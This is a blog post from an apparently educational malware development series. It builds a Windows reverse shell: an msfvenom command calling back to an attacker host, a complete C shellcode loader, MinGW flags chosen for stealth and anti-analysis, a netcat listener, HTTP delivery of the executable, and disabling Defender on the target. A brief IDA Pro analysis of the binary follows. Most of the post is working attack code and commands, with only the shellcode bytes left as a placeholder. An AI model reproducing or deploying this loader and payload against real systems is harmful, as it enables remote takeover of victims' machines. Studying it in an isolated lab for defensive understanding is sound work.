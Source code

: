 ```yaml
---
layout: post
title: 0 MALDEV - Easy Reverse Shell 
category : [Reverse, MALDEV]
tags: reverse
---
```


In this series, I'll be working through the "Malware Development for Ethical Hackers" book. I'll be developing malwares, testing them, and then reversing them to understand how they works.

## Lab Setup

For my testing environment, I have:
- A Kali Linux machine for development
- Two Windows 10 machines in a private network

This setup allows me to develop malware on Kali and run/analyze it on the Windows machines safely.

## Reverse Shell and msfvenom Payload Review

### Generating the Payload

Let's start by creating a reverse shell payload using msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali ip> LPORT=4444 -f c
```

#### Understanding the Command

**`msfvenom`** is Metasploit Framework's payload generator tool that creates custom shellcode and executables.

**Key Parameters:**
- **`-p windows/x64/shell_reverse_tcp`** - Specifies the payload type:
  - `windows/x64/` - Targets Windows 64-bit systems
  - `shell_reverse_tcp` - Creates a reverse shell over TCP
- **`LHOST=<kali ip>`** - The attacker's IP address where the reverse shell will connect back to
- **`LPORT=4444`** - The port on the attacker's machine where the reverse shell will connect
- **`-f c`** - Outputs the payload as a C array (hexadecimal bytes for embedding in C code)

### The C Implementation

Here's the main C code that will execute our shellcode:

```c
#include <windows.h>    // Windows API functions for memory allocation and thread creation
#include <stdio.h>      // Standard I/O functions (not used but commonly included)
#include <stdlib.h>     // Standard library functions (not used but commonly included)
#include <string.h>     // String manipulation functions (not used but commonly included)

// Array containing the shellcode generated by msfvenom
unsigned char actual_payload[] = <code generated from msfvenom> ;

// Size of the shellcode array for memory allocation
unsigned int actual_payload_length = sizeof(actual_payload);

int main(void) {
  void * memory_for_payload;   // Pointer to allocated memory for shellcode
  BOOL operation_status;       // Status of VirtualProtect operation
  HANDLE thread_handle;        // Handle to the thread that will execute shellcode
  DWORD previous_protection_level = 0;  // Stores previous memory protection level

  // Allocate executable memory for the shellcode
  // MEM_COMMIT: Commits the memory immediately
  // MEM_RESERVE: Reserves the memory space
  // PAGE_READWRITE: Initially sets memory as readable/writable (not executable)
  memory_for_payload = VirtualAlloc(0, actual_payload_length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy the shellcode from the array to the allocated memory
  RtlMoveMemory(memory_for_payload, actual_payload, actual_payload_length);

  // Change memory protection from READ/WRITE to EXECUTE/READ
  // This is necessary because modern systems prevent execution of writable memory (DEP)
  operation_status = VirtualProtect(memory_for_payload, actual_payload_length, PAGE_EXECUTE_READ, &previous_protection_level);
  if ( operation_status != 0 ) {
    // Create a new thread that executes the shellcode
    // The shellcode (reverse shell) will start running in this thread
    thread_handle = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) memory_for_payload, 0, 0, 0);
    // Wait indefinitely for the thread to complete (reverse shell to finish)
    WaitForSingleObject(thread_handle, -1);
  }
  return 0;
}
```

### Compilation with MinGW

We'll use MinGW to cross-compile our C code into a Windows executable:

```bash
x86_64-w64-mingw32-gcc hack.c -o hack.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

#### Compilation Flags Explained

**`x86_64-w64-mingw32-gcc`** - Cross-compiler for creating Windows 64-bit executables from Linux/Unix systems.

**Key Flags:**
- **`hack.c`** - Source file to compile
- **`-o hack.exe`** - Output filename
- **`-s`** - Strips symbols (removes debug information, function names, and variable names)
- **`-ffunction-sections`** - Places each function in its own section for better dead code elimination
- **`-fdata-sections`** - Places each data item in its own section for better dead code elimination
- **`-Wno-write-strings`** - Suppresses warnings about writing to string literals (useful for shellcode arrays)
- **`-fno-exceptions`** - Disables exception handling to reduce executable size and complexity
- **`-fmerge-all-constants`** - Merges identical constants to reduce executable size
- **`-static-libstdc++`** - Statically links the C++ standard library (no external dependencies)
- **`-static-libgcc`** - Statically links the GCC runtime library (no external dependencies)

#### Why These Flags Matter for Malware Development

These compilation flags serve several important purposes:

1. **Cross-compilation** - Creates a Windows executable from a Linux system
2. **Size optimization** - Reduces executable size through various optimization techniques
3. **Stealth enhancement** - Removes symbols and debug information to make reverse engineering harder
4. **Dependency elimination** - Creates a standalone executable that doesn't require external DLLs
5. **Anti-analysis** - Makes the binary harder to analyze by removing function names and symbols

**Critical flags for malware:**
- **`-s`** - Removes debugging symbols that could reveal function names and structure
- **`-ffunction-sections` and `-fdata-sections`** - Enables better dead code elimination, reducing file size
- **`-static-libstdc++` and `-static-libgcc`** - Ensures the malware runs on any Windows system without missing dependencies
- **`-fno-exceptions`** - Reduces complexity and size by removing exception handling overhead

### Testing the Malware

#### Setting Up the Attacker (Kali)

On the Kali machine, we need to set up two services:

1. **Netcat listener** to receive the reverse shell:
```bash
nc -nvlp 4444
```

2. **HTTP server** to serve the malware:
```bash
python3 -m http.server
```

#### Executing on the Target (Windows 10)

On the Windows 10 machine:
1. Disable Windows Defender (for testing purposes)
2. Open a web browser and navigate to `http://<kali ip>:8000`
3. Download the malware executable
4. Run the executable

#### Results

When successful, you'll receive a reverse shell on your Kali machine:

![res](/assets/images/maldev/0/reverseexec.png)

## Reverse Engineering with IDA

Now let's analyze our malware using IDA Pro to understand how it works.

### Initial Analysis

I started by examining the code function by function, but even for this small program, there's quite a bit of code to sift through. Let's take a step back and check the **Imports** subview first:

![ida](/assets/images/maldev/0/ida1.png)

### Identifying Suspicious Functions

We can immediately spot some suspicious functions in the imports. I'll focus on `CreateThread` since it only has two cross-references (both in the same function), which could give us insight into what payload is being executed:

![ida](/assets/images/maldev/0/ida2.png)

### Finding the Payload

Perfect! We found all the juicy information in one function. The payload generated by msfvenom is clearly visible in the code:

![ida](/assets/images/maldev/0/ida3.png)

### Next Steps

It would be interesting to explore ways to transform this payload back into its original msfvenom command. This could help us understand the exact parameters used to generate the shellcode.
